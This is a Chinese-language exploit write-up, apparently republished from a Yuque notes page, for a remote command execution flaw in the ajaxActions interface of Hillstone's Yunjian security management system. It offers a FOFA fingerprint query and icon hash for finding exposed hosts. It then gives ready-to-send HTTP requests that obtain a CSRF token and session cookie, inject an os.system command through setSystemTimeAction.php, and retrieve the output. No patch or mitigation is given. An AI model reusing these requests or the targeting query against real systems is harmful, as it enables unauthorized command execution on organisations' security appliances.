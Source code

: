# 山石网科云鉴安全管理系统ajaxActions接口处存在远程命令执行漏洞

# 一、产品简介
<font style="color:rgb(51, 51, 51);">山石网科是中国网络安全行业的技术创新领导厂商</font><sup><font style="color:rgb(51, 102, 204);"> </font></sup><font style="color:rgb(51, 51, 51);">，自成立以来为金融、政府、互联网、教育、医疗卫生等行业的超过26000家客户提供高效、稳定的安全防护服务。山石网科云鉴安全管理系统ajaxActions接口处存在远程命令执行漏洞,可导致系统被攻击者执行任意命令。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 山石网科云鉴安全管理系统

# <font style="color:rgb(0, 0, 0);">三、资产测绘</font>
+ fofa`body=山石云鉴主机安全管理系统||icon_hash="572290418"`
+ 特征

![1715078394101-31b6a8b4-b52f-42ab-8636-c684e2531bb7.png](./img/wxEwBAW_TIPk5zJS/1715078394101-31b6a8b4-b52f-42ab-8636-c684e2531bb7-365277.png)

# 四、漏洞复现
1. 获取token与cookie

```plain
GET /master/ajaxActions/getTokenAction.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate, br
```

![1715157818803-e44a7f91-955e-4399-a150-3f3d7ecdd258.png](./img/wxEwBAW_TIPk5zJS/1715157818803-e44a7f91-955e-4399-a150-3f3d7ecdd258-372501.png)

2. 使用上一步获取的token与cookie执行命令

```plain
POST /master/ajaxActions/setSystemTimeAction.php?token_csrf=a64cca09285de26ca4ebfefa629edd02 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 90
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3ovusd429biqeot6ioje7q06r0

param=os.system('echo 8888881 > /opt/var/majorsec/installation/master/runtime/img/config')
```

![1715157802540-1acb09fb-b3fc-48b6-a0fc-64f1c542d681.png](./img/wxEwBAW_TIPk5zJS/1715157802540-1acb09fb-b3fc-48b6-a0fc-64f1c542d681-368550.png)

2. 获取命令执行结果

```plain
GET /master/img/config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![1715157874584-965625d3-c321-4dab-87f4-fefe9baa380c.png](./img/wxEwBAW_TIPk5zJS/1715157874584-965625d3-c321-4dab-87f4-fefe9baa380c-568641.png)



> 更新: 2024-05-20 13:57:29  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ktu0gkdf8p351xdi>